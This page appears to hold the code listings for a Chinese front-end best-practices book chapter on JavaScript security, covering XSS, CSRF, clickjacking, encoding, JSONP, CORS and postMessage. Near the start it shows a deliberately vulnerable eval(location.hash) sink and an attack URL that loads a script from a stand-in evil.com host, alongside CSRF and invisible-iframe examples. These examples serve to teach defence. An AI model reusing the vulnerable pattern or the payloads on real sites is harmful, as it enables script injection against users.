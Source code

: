 ```yaml
---
layout: post
title: 《Web前端开发最佳实践》第11章-源代码
fullview: false
---
```

## 第11章 高安全性的JavaScript
如果网站的前端代码中有如下的代码段：

	<script>
	    eval(location.hash.substr(1));
	</script>

攻击者发现页面上有这样的代码，则可以构建如下的URL：

	http://host/test.html#document.write("<script/src=//www.evil.com/evil.js></script>”)

假设网站a有个页面是通过GET请求来删除数据的，使用的URL如下：

		http://www.a.com/del?id=21

使用前端技术很容易实现一个不可见且浮在最上层的iframe窗口，如下的样式代码展示了其具体的实现：

	filter:alpha(opacity=0);
	opacity:0;
	z-index: 100;

### 11.2 不要信任任何外部传入的数据.
如果期望更灵活地控制输入内容，则可以使用jQuery插件jqencoder 。如下是此插件提供的各种编码接口：

	$.encoder.encodeForHTML()
	$.encoder.encodeForHTMLAttribute()
	$.encoder.encodeForJavaScript()
	$.encoder.encodeForCSS()
	$.encoder.encodeForURL()
A网站引用脚本的方式类似如下：

	<script  src="http://server2.example.com/RetrieveUser?UserId=1823&jsonp=parseResponse">
	 </script>
上述代码中parseResponse为传入的回调函数名称，B网站组合后返回的代码类似如下：

	parseResponse({"Name": "Cheeso", "Id" : 1823, "Rank": 7})

CORS主要的原理是在服务器端设置Access-Control-Allow-Origin头，从而限定了服务请求的发起端。如下是一个设置的示例：

	Access-Control-Allow-Origin: http://www.dang-jian.com

HTML5规范中也引入了另外一个跨域数据传输的方案，即使用window.postMessage 接口。使用示例如下：

	popup.postMessage("这是传输的数据",
	                  "https://secure.example.net");

然后在目标页面中添加如下的代码：

	function receiveMessage(event) {
	  if (event.origin !== "http://example.org") {
	    return
	    // event.source 指向popup
	    // event.data 的内容是 "这是传输的数据"
	  }
	}

	window.addEventListener("message", receiveMessage, false);

### 11.3 其他前端安全防范实践
传统的方式是使用Javascript代码来阻止网页被其他网页嵌套，首先在页面中添加如下的样式：

	<style id="antiClickjack">body{display:none !important;}</style>

同时添加类似如下的JavaScript代码：

	<script type="text/javascript">
	   if (self === top) {
	       var antiClickjack = document.getElementById("antiClickjack");
	       antiClickjack.parentNode.removeChild(antiClickjack);
	   } else {
	       top.location = self.location;
	   }
	</script>